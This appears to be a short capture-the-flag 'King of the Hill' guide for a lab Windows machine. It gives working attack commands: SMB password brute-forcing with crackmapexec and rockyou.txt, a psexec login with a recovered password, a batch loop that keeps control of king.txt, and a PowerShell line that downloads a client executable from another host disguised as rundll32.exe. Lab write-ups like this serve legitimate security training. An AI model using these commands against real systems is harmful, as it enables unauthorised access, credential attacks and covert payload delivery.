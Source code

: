 # H1: Medium KOTH Guide

A direct way in is to crack the password for the achilles user via brute force, then use psexec to get a system shell.

1. Setup a crack map exec docker instance: `docker run -it --entrypoint=/bin/sh --name crackmapexec -v ~/.cme:/root/.cme byt3bl33d3r/crackmapexec`
2. place rockyou.txt in .cme locally, then inside the container run `cme smb 10.10.63.150 -u achilles -p /root/.cme/rockyou.txt`
3. connect to the target machine using psexec: `psexec.py TROY.thm/achilles:winniethepooh@10.10.63.150`

As seen, a password recovered is `winniethepooh`. This has been consistent across two games.

`king.txt` is at `c:\king.txt`

For a chattr loop like thing, use:

```
:loop
attrib -r -a -h -s c:\king.txt
echo Aquinas > c:\king.txt
goto loop
```

in a batch file, and run with `START /b sys.bat` (or whatever you name it) 

## Tools

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.199.178:1234/client.exe','c:\users\administrator\music\rundll32.exe')"
attrib +r king.txt
```

## Flags

- C:\Users\achilles\Desktop\flag.txt
- C:\Users\agamemnon\Desktop\flag.txt
- C:\Users\hector\Desktop\flag.txt
- C:\Users\helen\Desktop\flag.txt
- C:\Users\patrocles\Desktop\flag.txt
